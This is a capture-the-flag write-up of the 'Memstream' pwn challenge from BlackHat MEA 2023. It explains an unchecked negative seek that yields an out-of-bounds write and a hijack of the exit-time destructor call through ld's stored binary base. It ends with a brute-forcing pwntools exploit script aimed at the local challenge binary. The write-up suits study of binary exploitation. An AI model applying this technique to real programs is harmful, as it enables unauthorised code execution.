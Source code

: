# BlackHatMea23 Memstream
# Memstream
Memstream was the second pwn challenge in the event. it was medium difficulty. Here is the source code:

After running checksec on the binary, it shows that the binary is packed with UPX:

    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
    Packer:   Packed with UPX
    
We can see that the binary is with No Relro, and without stack canary.

Now, let’s look for vulnerabilities.

The binary consists of a simple main menu.

We can seek , which lets us change an index g_cur, in a global array.

We can write, which will write to g_buf[g_cur].

The vulnerability is simple. When seeking, it doesn’t check if our value is minus. This basically gives us an OOB write primitive.

There is not a read option, which hints that our solution should be without any leaks.

Exploitation
With my OOB write, I was thinking what can I overwrite. I saw in GDB, that when running our memstream binary, it is not loaded in 0x55***000 as usual, but in 0x7ff****000, which means it has been mmaped (UPX binaries are weird)

This means that it is a constant offset from our dynamic libaries (i.e ld). With that in mind, we can overwrite anything we want from there.

One thing I knew, is that ld stores the binary base address in its writable segment. Then, when exiting the program, it will jump to the memory inside that address + 0x3d88:


If rax is *(0x7ffff7fef2e0) = 0x7ffff7ff7000, it will do call [rax + 0x3d88], which under normal circumstances is __do_global_dtors_aux.

So , we can control rax, to be whatever we want, and then it will jump to whats inside that address + 0x3d88.

After a quick search, I found out that the win function isn’t written in any location inside the memory of that binary, so we should write somewhere ourselves.

As seen in the previous screenshot, there is a second binary base address located in ld.

So, I partially overwrote it, to point to our win function. then , with our second write, I overwrote the second binary base to point to first_binary_base - 0x3d88, which will jump to main!

One thing to notice is that when we partially overwrite the base to point to the win function, we’ll need to bruteforce one nibble. the offset of the win function is 0x1229, and we can know just the 3 first nibbles of the base.

In my script I overwrote it to be 0x8229:


	offset_base2 = 0x5a28
	seek(-offset_base2)
	win_offset = 0x8229
	write(2, p16(win_offset))
 
Then, the same issue occurs when we partially overwrite the second base address, I just guessed 0x5638:
```
	offset_base_win = 0x5d80
  seek(-offset_base_win)
	write(2, p16(0x5638 - 0x3d88))
	write(-1, "b") #trigger exit
 ```
In total, we bruteforced 2 nibbles, and each one has a 1/16 success rate. so we will have 1/16*1/16=1/256 success rate.

Here is my final script, which will be need to run multiple times to succeed:
```
from pwn import *


def seek(offset):
	p.recvuntil("> ")
	p.sendline("1")
	p.sendline(str(offset))

def write(size, payload):
	print(p.recvuntil("> "))
	p.sendline("3")
	print(p.recvuntil(": "))
	p.sendline(str(size))
	print(p.recvuntil(": "))
	p.send(payload)



while True:
	p = process("./memstream")

	offset_base_win = 0x5d80
	offset_base2 = 0x5a28


	seek(-offset_base2)
	win_offset = 0x8229
	write(2, p16(win_offset))

	seek(-offset_base_win)
	write(2, p16(0x5638 - 0x3d88))
	write(-1, "b")

	try:
		p.sendline("ls")
		print(p.recv())
		#p.interactive()
	except:

		p.close()
		continue
	finally:
		p.interactive()

```
